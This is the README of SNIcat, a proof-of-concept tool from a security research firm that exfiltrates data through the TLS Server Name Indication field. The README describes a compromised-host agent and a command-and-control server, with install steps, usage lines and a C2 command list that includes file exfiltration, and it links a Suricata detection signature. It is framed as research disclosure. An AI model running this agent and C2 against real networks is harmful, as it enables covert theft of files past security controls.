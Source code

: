# SNIcat (Server Name Indication Concatenator)

<img align="right" src="/images/snicat-logo.png" alt="SNIcat" width="175x" height="200">

**SNIcat** is a proof of concept tool that performs data exfiltration, utilizing a covert channel method via. *Server Name Indication*, a **TLS Client Hello Extension**.
The tool consists of an **agent** which resides on the compromised internal host, and a **Command&Control** Server which controls the agent and gathers exfiltrated data.

The full story behind SNIcat can be found in our [blog post](https://www.mnemonic.no/blog/introducing-snicat)

## Disclaimer

SNIcat has been tested on macOS and a variety of linux distributions.
Even though it can be easily ported, there is currently no Windows version, as this is just a PoC tool.

The exfiltration method does not work with explicit proxies, due to the use of HTTP CONNECT, and not TLS Client Hello, when connecting via an explicit proxy.<br/>
SNIcat might not work with products and software versions that we haven’t tested, but that does not mean the products and/or software versions aren’t vulnerable. 

## SNIcat in action

![](/images/snicat.gif)

## Background and Scenario

We discovered a new stealthy method of data exfiltration that specifically bypasses security perimeter solutions such as web proxies, next generation firewalls (NGFW), and dedicated solutions for TLS interception and inspection. Our testing validates that this is a widespread issue that affects different types of security solutions as well as solutions from a variety of vendors. We successfully tested our technique against products from F5 Networks, Palo Alto Networks and Fortinet, and speculate that many other vendors also are susceptible. 

By using our exfiltration method SNIcat, we found that we can bypass a security perimeter solution performing TLS inspection, even when the Command & Control (C2) domain we use is blocked by common reputation and threat prevention features built into the security solutions themselves. In short, we found that solutions designed to protect users, introduced them to a new vulnerability.

We have also provided a [Suricata signature](/signatures/snicat.rules) for detecting this specific tool.

## Installation

Clone the repository: 

```bash
https://github.com/mnemonic-no/SNIcat.git
```

Install dependencies: 

```bash
pip3 install -r requirements.txt --user
```

## Initial setup

**C2**

Aquire a wildcard certificate and key from a publically trusted CA. This represents the *GOOD_CERT* and *GOOD_CERT_KEY*.<br/>
Utilise a self-signed certificate and key (not in any trust store) as a *BAD_CERT* and *BAD_CERT_KEY*.

```
(*) USAGE:      'python3 snicat_c2.py <LISTENING_PORT> <GOOD_CERT> <GOOD_CERT_KEY> <BAD_CERT> <BAD_CERT_KEY> log={on|off}'
(*) EXAMPLE:    'python3 snicat_c2_final.py 443 certs/good.pem certs/good.key certs/ssl-cert-snakeoil.pem log=off'
```

**Agent**

```
(*) USAGE:      'python3 snicat_agent.py <C2_SERVER_IP> <C2_SERVER_PORT> log={on|off}'
(*) Example:    'python3 snicat_agent.py 192.0.2.1 443 log=off'
```


## Usage

C2 Available commands

```
LIST			 - 	display all content in current folder
LS			 - 	display only files in the currenet folder
SIZE			 - 	display size of files in the currenet folder
LD			 - 	display every directory in current folder
CB			 - 	moves down to root tree folder - similar to 'cd .. '
CD <folder-id> 		 - 	moves up the specified folder
EX <file-id> 		 - 	exfiltrate the specified file
ALIVE 			 - 	check alive/dead agent
EXIT 			 - 	quit the C2 server
```
